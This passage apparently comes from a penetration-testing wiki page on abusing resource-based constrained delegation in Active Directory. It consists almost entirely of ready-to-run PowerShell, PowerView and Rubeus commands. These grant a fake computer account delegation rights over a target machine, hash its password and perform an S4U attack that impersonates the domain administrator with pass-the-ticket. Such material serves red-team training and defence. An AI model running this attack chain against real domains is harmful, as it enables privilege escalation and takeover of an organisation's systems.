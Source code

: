 ```bash
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount FAKECOMPUTER$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```

![](../../.gitbook/assets/B2.png)

#### Using powerview

```bash
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```

### Performing a complete S4U attack

First of all, we created the new Computer object with the password `123456`, so we need the hash of that password:

```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```

This will print the RC4 and AES hashes for that account.\
Now, the attack can be performed:

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
